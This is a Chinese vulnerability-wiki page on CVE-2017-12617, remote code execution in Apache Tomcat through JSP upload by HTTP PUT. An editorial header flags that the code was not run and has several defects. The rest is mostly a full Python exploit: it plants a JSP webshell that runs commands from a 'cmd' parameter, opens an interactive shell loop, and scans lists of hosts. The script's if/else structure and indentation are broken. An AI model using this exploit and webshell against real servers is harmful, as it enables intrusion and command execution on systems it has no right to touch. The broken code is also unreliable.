

# （CVE-2017-12617）Tomcat RCE via JSP Upload Bypass

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：非默认readonly=false允许PUT
- 证据范围：与309同intx0x80脚本，本文缩进更严重损坏，应择完整版本合并而保留差异审计。

### 本次正文校订

- 运行时标注：原示例含 Python 2 专用语法或模块，不能直接按 Python 3 运行；不在本次校订中迁移或执行。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- if/else之后同层elif形成非法结构，分支内缩进不一致，Python2也不能直接运行
- Python2 print/raw_input依赖未标；--pwn误写-pwn
- check会上传Poc.jsp不是只读探测，可能覆盖现有文件且无删除
- 9.0.0上限应核对具体里程碑，版本行压连
- 201仅证明创建，不独立证明JSP执行，虽另有GET检查
- 缺修复版本、超时与错误处理，图片路径残渣

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Apache
Tomcat版本9.0.0.M1至9.0.0、8.5.0至8.5.22、8.0.0.RC1至8.0.46和7.0.0至7.0.81且启用HTTP
PUT时（例如，通过设置只读如果将Default
servlet的初始化参数设置为false，则可以通过特制请求将JSP文件上载到服务器。然后可以请求此JSP，并且服务器将执行其中包含的所有代码。

二、漏洞影响
------------

Apache Tomcat版本9.0.0.M1至9.0.0Apache Tomcat版本8.5.0至8.5.22Apache Tomcat版本8.0.0.RC1至8.0.46Apache Tomcat版本7.0.0至7.0.81

三、复现过程
------------

**msf自带的有利用脚本，懒省事可以直接用msf**TomcatRCEviaJSPUploadBypass/media/rId24.png)

### poc

**useage**

    ./cve-2017-12617.py -u http://www.0-sec.org
    ./cve-2017-12617.py --url http://www.0-sec.org
    ./cve-2017-12617.py -u http://www.0-sec.org -p pwn
    ./cve-2017-12617.py --url http://www.0-sec.org -pwn pwn
    ./cve-2017-12617.py -l hotsts.txt
    ./cve-2017-12617.py --list hosts.txt
    #!/usr/bin/python
    import requests
    import re
    import signal
    from optparse import OptionParser

    class bcolors:
        HEADER = '\033[95m'
        OKBLUE = '\033[94m'
        OKGREEN = '\033[92m'
        WARNING = '\033[93m'
        FAIL = '\033[91m'
        ENDC = '\033[0m'
        BOLD = '\033[1m'
        UNDERLINE = '\033[4m'

    banner="""
       _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
      / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
     | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
     | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
     | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
      \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                               
                                                                               
    [@intx0x80]
    """

    def signal_handler(signal, frame):

        print ("\033[91m"+"\n[-] Exiting"+"\033[0m")

        exit()

    signal.signal(signal.SIGINT, signal_handler)

    def removetags(tags):
      remove = re.compile('<.*?>')
      txt = re.sub(remove, '\n', tags)
      return txt.replace("\n\n\n","\n")

    def getContent(url,f):
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        re=requests.get(str(url)+"/"+str(f), headers=headers,verify=False)
        return re.content

    def createPayload(url,f):
        evil='<% out.println("AAAAAAAAAAAAAAAAAAAAAAAAAAAAA");%>'
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        req=requests.put(str(url)+str(f)+"/",data=evil, headers=headers,verify=False)
        if req.status_code==201:
            print "File Created .."

       
    def RCE(url,f):
        EVIL="""<FORM METHOD=GET ACTION='{}'>""".format(f)+"""
        <INPUT name='cmd' type=text>
        <INPUT type=submit value='Run'>
        </FORM>
        <%@ page import="java.io.*" %>
        <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+" "; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <pre><%=output %></pre>"""

        
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        req=requests.put(str(url)+f+"/",data=EVIL, headers=headers,verify=False)
        

    def shell(url,f):
        
        while True:
            headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
            cmd=raw_input("$ ")
            payload={'cmd':cmd}
            if cmd=="q" or cmd=="Q":
                    break
            requests.packages.urllib3.disable_warnings()
            re=requests.get(str(url)+"/"+str(f),params=payload,headers=headers,verify=False)
            re=str(re.content)
            t=removetags(re)
            print t

    #print bcolors.HEADER+ banner+bcolors.ENDC

    parse=OptionParser(

    bcolors.HEADER+"""
       _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
      / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
     | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
     | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
     | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
      \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                               
                                                                               
    ./cve-2017-12617.py [options]
    options:
    -u ,--url [::] check target url if it's vulnerable 
    -p,--pwn  [::] generate webshell and upload it
    -l,--list [::] hosts list
    [+]usage:
    ./cve-2017-12617.py -u http://127.0.0.1
    ./cve-2017-12617.py --url http://127.0.0.1
    ./cve-2017-12617.py -u http://127.0.0.1 -p pwn
    ./cve-2017-12617.py --url http://127.0.0.1 -pwn pwn
    ./cve-2017-12617.py -l hotsts.txt
    ./cve-2017-12617.py --list hosts.txt
    [@intx0x80]
    """+bcolors.ENDC

        )

    parse.add_option("-u","--url",dest="U",type="string",help="Website Url")          
    parse.add_option("-p","--pwn",dest="P",type="string",help="generate webshell and upload it")
    parse.add_option("-l","--list",dest="L",type="string",help="hosts File")

    (opt,args)=parse.parse_args()

    if opt.U==None and opt.P==None and opt.L==None:
        print(parse.usage)
        exit(0)

    else:
        if opt.U!=None and opt.P==None and opt.L==None:
            print bcolors.OKGREEN+banner+bcolors.ENDC 
            url=str(opt.U)
            checker="Poc.jsp"
            print bcolors.BOLD +"Poc Filename  {}".format(checker)
            createPayload(str(url)+"/",checker)
            con=getContent(str(url)+"/",checker)
            if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                print bcolors.WARNING+url+' it\'s Vulnerable to CVE-2017-12617'+bcolors.ENDC
            print bcolors.WARNING+url+"/"+checker+bcolors.ENDC
            
        else:
                print 'Not Vulnerable to CVE-2017-12617 '
        elif opt.P!=None and opt.U!=None and  opt.L==None:
                    print bcolors.OKGREEN+banner+bcolors.ENDC 
            pwn=str(opt.P)
            url=str(opt.U)
            print "Uploading Webshell ....."
            pwn=pwn+".jsp"
            RCE(str(url)+"/",pwn)
            shell(str(url),pwn)
        elif opt.L!=None and opt.P==None and opt.U==None:
                    print bcolors.OKGREEN+banner+bcolors.ENDC 
            w=str(opt.L)
            f=open(w,"r")
            print "Scaning hosts in {}".format(w)
            checker="Poc.jsp"
            for i in f.readlines():
                i=i.strip("\n")
                createPayload(str(i)+"/",checker)
                con=getContent(str(i)+"/",checker)
                if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                    print str(i)+"\033[91m"+" [ Vulnerable ] ""\033[0m"
